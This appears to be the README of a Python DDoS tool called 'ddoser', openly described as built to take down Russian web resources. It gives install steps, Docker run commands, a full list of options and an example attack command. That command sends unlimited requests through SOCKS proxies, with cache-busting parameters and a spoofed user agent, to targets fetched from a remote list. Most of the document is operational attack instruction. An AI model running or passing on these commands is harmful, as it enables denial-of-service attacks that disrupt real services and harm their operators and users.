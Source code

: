 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)  
## Docker run (easy way)
Install docker https://docs.docker.com/engine/install/
```shell
# with default urls and proxies
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser
# with custom params
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser --target-urls-file sime.txt ... (check usage section)
# help
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser --help
```
Each run will update ddoser inside.
## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT         ddos target url
  --target-urls-file TEXT   path or url to file contains urls to ddos
  --proxy-url TEXT          url to proxy resourse
  --proxy-file TEXT         path to file with proxy list
  --concurrency INTEGER     concurrency level
  --count INTEGER           requests count (0 for infinite)
  --timeout INTEGER         requests timeout
  --verbose                 Show verbose log
  --with-random-get-param   add random get argument to prevent cache usage
  --user-agent TEXT         custom user agent
  --log-to-stdout           log to console
  --random-xff-ip           set random ip address value for X-Forwarder-For header
  --restart-period INTEGER  period in seconds to restart application (reload proxies ans targets)
  --help                    Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 100 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets1.txt
```
## Notes
**ddoser** supports only sock proxy, also can start it directly without proxy

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000:
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```

